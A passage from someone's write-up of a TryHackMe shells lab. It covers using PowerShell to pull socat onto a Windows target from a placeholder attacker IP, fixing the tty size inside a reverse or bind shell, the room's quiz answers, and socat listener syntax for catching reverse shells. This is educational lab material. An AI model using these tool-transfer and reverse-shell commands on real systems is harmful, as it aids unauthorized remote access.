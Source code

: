 For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

---------------------------------------------------------------------------------

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run stty -a. This will give you a large stream of output. Note down the values for "rows" and columns:

![](https://github.com/reveng007/TryHackMe/blob/main/_SUBSCRIPTION_/paths/Complete%20Beginner/07.Shells%20and%20Privilege%20Escalation/01.What%20the%20Shell%3F/pic1.png?raw=true)


Next, in your reverse/bind shell, type in:

```
stty rows <number>
```
and
```
stty cols <number>
```

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

1. How would you change your terminal size to have 238 columns?

--> stty cols 238

2. What is the syntax for setting up a Python3 webserver on port 80?

--> sudo python3 -m http.server 80


Task 6  Socat
--------------

Socat is similar to netcat in some ways, but fundamentally different in many others.

**The easiest way to think about socat is as a connector between two points**. In the interests of this room, this will essentially be a _listening port_ and the _keyboard_, however, it could also be a _listening port_ and _a file_, or indeed, _two listening ports_.


<ins>Reverse Shells</ins>

Syntax for socat gets a lot harder than that of netcat
```
socat TCP-L:<port> -
```

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.
